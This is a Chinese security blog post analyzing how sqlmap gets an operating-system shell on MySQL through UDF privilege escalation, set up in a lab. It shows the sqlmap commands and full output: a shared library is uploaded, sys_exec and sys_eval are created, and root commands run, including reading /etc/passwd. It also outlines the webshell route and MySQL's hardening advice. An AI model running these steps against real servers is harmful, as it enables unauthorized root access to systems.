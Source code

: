 ```yaml
---
layout: post
title: 利用SQLMAP获取os-shell的过程分析「UDF」
description: ""
keywords: ""
---
```


### 结论

关于MySQL读写文件的条件限制是老生常谈的问题，由于SQLMAP获取os-shell的两种方法均需要文件写入操作，这里先摆出结论：

1、MySQL服务默认以mysql用户权限启动，并没有危险目录（/usr/lib64/mysql/plugin[root 755]、/var/www/html[root 755]、/var/spool/cron[root 700]、/root/.ssh[root 700]等）下的文件写入权限。

2、MySQL 5.6.34版本以后的secure_file_priv参数默认值为NULL或指定的/var/lib/mysql-files，即禁止在危险目录写入。

\* 针对结论1，受害者可以使用`--user=root`启动服务获取系统root权限；也可以将相应目录给予o+w权限（其他用户写权限）。实际情况下前者几乎不存在，后者却存在许多嫌麻烦的糊涂蛋给予web目录（/var/www/html）777权限的，以至于被写入webshell。

\* 针对结论2，secure-file-priv属于Server System Variables，需要在配置中修改。即使有条件修改配置文件（/etc/my.cnf），也必须重启MySQL服务才能生效。

\* 至于文件读取，所需条件同理，本文不做分析。

\+ System root和System mysql、System root和MySQL root、MySQL root和MySQL user有明显区别。

### 默认环境

CentOS 7.7.1908、MySQL 5.7.29（--secure-file-priv=/var/lib/mysql-files）、SQLMAP 1.4.2

使用`sqlmap -hh`可以得到详细帮助文档，可以发现：-d参数是连接数据库参数，--os-shell获取交互shell。

```
-d DIRECT           Connection string for direct database connection
--os-shell          Prompt for an interactive operating system shell
```

利用SQLMAP实现MySQL os-shell有两个途径，一是本文重点分析的由UDF提权获取的SystemShell，一是普通SQL注入获取的Webshell。

### UDF（-d参数）

System root下使用systenctl启动MySQL服务，默认是以System mysql权限启动，使用lsof查看：

```
[root@localhost ~]# lsof -i :3306
COMMAND   PID  USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
mysqld  14754 mysql   17u  IPv6 109862      0t0  TCP *:mysql (LISTEN)
```

利用SQLMAP -d连接数据库会提示没有权限写入：

```
[Sewell]: ~
➜  sqlmap -d "mysql://root:`echo $pass`@172.16.58.130:3306/mysql" --os-shell --no-cast
[22:51:15] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[22:51:15] [ERROR] there has been a problem uploading the shared library, it looks like the binary file has not been written on the database underlying file system
```

\* 由于密码包含特殊符号，这里使用环境变量输出。

使用`--user=root`以System root用户权限启动服务，使用`secure_file_priv=''`更改默认参数值为空（Empty），完成环境搭建。

```
mysqld --user=root --secure_file_priv=''
```

\* 为了方便，可以在默认配置文件`/etc/my.cnf`的`[mysqld]`下添加`user=root`和`secure_file_priv=''`，并使用`mysqld`重新启动MySQL服务。

\+ 若在MySQL客户端中执行读取或写入命令有如下提示，表示受--secure-file-priv限制：

```
The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

\+ 默认情况下查看--secure-file-priv值：

```
mysql> show global variables LIKE "secure_file_priv";
+------------------+-----------------------+
| Variable_name    | Value                 |
+------------------+-----------------------+
| secure_file_priv | /var/lib/mysql-files/ |
+------------------+-----------------------+
1 row in set (0.01 sec)
```

重新利用SQLMAP -d执行，成功上传二进制so文件，并返回shell。

```
[Sewell]: ~
➜  sqlmap -d "mysql://root:`echo $pass`@172.16.58.130:3306/mysql" --os-shell --no-cast
[15:32:48] [INFO] connection to MySQL server '172.16.58.130:3306' established
[15:32:48] [INFO] testing MySQL
[15:32:48] [INFO] confirming MySQL
[15:32:48] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[15:32:48] [INFO] fingerprinting the back-end DBMS operating system
[15:32:48] [INFO] the back-end DBMS operating system is Linux
[15:32:48] [INFO] testing if current user is DBA
[15:32:48] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 2
[15:32:57] [INFO] detecting back-end DBMS version from its banner
[15:32:57] [INFO] retrieving MySQL plugin directory absolute path
[15:32:57] [INFO] the local file '/var/folders/48/8d13hmr53_z6ppgcpm5hszkr0000gn/T/sqlmapz0cosk4r52452/lib_mysqludf_sys4ptdzt5a.so' and the remote file '/usr/lib64/mysql/plugin/libscwmi.so' have the same size (8040 B)
[15:32:57] [INFO] creating UDF 'sys_exec' from the binary UDF file
[15:32:57] [INFO] creating UDF 'sys_eval' from the binary UDF file
[15:32:57] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[15:32:57] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id
do you want to retrieve the command standard output? [Y/n/a]
command standard output: 'uid=0(root) gid=0(root) 组=0(root) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023'
os-shell> cat /etc/passwd
do you want to retrieve the command standard output? [Y/n/a]
command standard output:
---
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
---
os-shell> exit
[15:33:12] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_exec'? [Y/n]
do you want to remove UDF 'sys_eval'? [Y/n]
[15:33:14] [INFO] database management system cleanup finished
[15:33:14] [WARNING] remember that UDF shared object files saved on the file system can only be deleted manually
[15:33:14] [INFO] connection to MySQL server '172.16.58.130:3306' closed
```

使用ping命令阻塞os-shell，并利用pstree查看进程树，可发现拿到的是System root Shell：

```
[root@localhost 4gaka]# lsof -i :3306
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
mysqld  16261 root   16u  IPv6 128373      0t0  TCP *:mysql (LISTEN)
mysqld  16261 root   40u  IPv6 129424      0t0  TCP localhost.localdomain:mysql->gateway:63712 (ESTABLISHED)
[root@localhost 4gaka]# pstree -p 16261
mysqld(16261)─┬─ping(16416)
              ├─{mysqld}(16262)
              ...
              └─{mysqld}(16322)
```

使用Wireshark抓包，过滤出MySQL协议的数据包，右键任意包 -> 追踪流 -> TCP流，以ASCII显示，发现如下信息：

![SQLMAP_MySQL_1](/assets/images/2020-02-27/SQLMAP_MySQL.png)

利用的SQL语句和常规UDF提权语句大同小异，具体流程见图注释。

### Webshell（常规注入）

网上分析较多，BxScope师傅的较为详细，[对利用sqlmap获取os-shell过程的一次抓包分析](https://www.cnblogs.com/BxScope/p/10883422.html)，文章将每个数据包均记录了下来，常规注入获取的os-shell大致流程是：利用SELECT ... INTO OUTFILE ... LINES TERMINATED BY上传小马（仅上传功能） -> 利用小马上传Webshell（可使用system、proc_open、shell_exec、passthru、popen、exec执行命令） -> 利用Webshell执行命令（明文参数cmd=whoami）。

### 参考

1、官方防范建议：[security-against-attack](https://dev.mysql.com/doc/refman/8.0/en/security-against-attack.html)

```
Never run the MySQL server as the Unix root user. This is extremely dangerous, because any user with the FILE privilege is able to cause the server to create files as root (for example, ~root/.bashrc). To prevent this, mysqld refuses to run as root unless that is specified explicitly using the --user=root option.
```

2、secure_file_priv属性介绍：[server-system-variables](https://dev.mysql.com/doc/refman/8.0/en/server-system-variables.html)

3、SQLMAP支持MySQL和PostgreSQL的UDF [so文件](https://github.com/sqlmapproject/sqlmap/tree/master/data/udf)

4、抓取的Pcap Demo: [SQLMAP_UDF](/assets/images/2020-02-27/SQLMAP_MySQL.pcap) 